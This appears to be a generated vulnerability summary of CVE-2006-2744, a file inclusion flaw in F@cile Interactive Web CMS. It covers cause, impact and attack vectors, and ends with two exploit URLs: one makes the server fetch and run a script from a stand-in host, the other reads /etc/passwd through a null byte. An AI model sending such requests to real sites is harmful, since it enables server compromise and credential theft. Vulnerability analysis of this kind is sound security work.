 Based on the provided content, here's a breakdown of the vulnerability described by CVE-2006-2744:

**Root Cause of Vulnerability:**

*   The vulnerability lies in the `p-popupgallery.php` file of the F@cile Interactive Web CMS. The script uses the `l` parameter to include another PHP file without proper sanitization. Specifically, the code uses:  `include ("$l/p-lang-base.php");`
*   The lack of sanitization of the `l` parameter allows for arbitrary file inclusion.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include remote files by manipulating the `l` parameter. This means an attacker can specify a URL pointing to a malicious PHP script on an external server, which will then be executed by the vulnerable application.
*   **Local File Inclusion (LFI):** If `magic_quotes_gpc` is turned off on the server, an attacker can include local files as well. This could allow them to read sensitive files on the server.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including malicious remote PHP files, an attacker can execute arbitrary code on the web server. This could lead to complete compromise of the server and the hosted application.
*   **Sensitive Information Disclosure:** By including local files, an attacker can potentially access sensitive information from the server file system. This could include application configuration files, database credentials, and user data.

**Attack Vectors:**

*   The attack vector is through a crafted HTTP GET request targeting the `p-popupgallery.php` script.
*   The attacker manipulates the `l` parameter to specify the file they wish to include.

**Required Attacker Capabilities/Position:**

*   **Remote:** The attacker can exploit the vulnerability remotely over the internet.
*   **No Authentication Required:** No prior authentication to the web application is required to exploit this vulnerability.
*   **Basic HTTP Knowledge:** The attacker only needs a basic understanding of how to form a URL request.

**Technical Details:**

*   The vulnerable code is in `p-popupgallery.php` at line 28: `include ("$l/p-lang-base.php");`
*   The `l` parameter is not sanitized.

**Exploit Examples:**

*   **Remote Inclusion:**
    `http://[victim]/[FacilePath]/p-popupgallery.php?l=http://yourhost.com/cmd.txt?`
*   **Local Inclusion:**
    `http://[victim]/[FacilePath]/p-popupgallery.php?l=/etc/passwd%00`

The provided content also details other vulnerabilities in the F@cile Interactive Web CMS that are related to the same advisory but have their own CVE IDs (CVE-2006-2745 and CVE-2006-2746).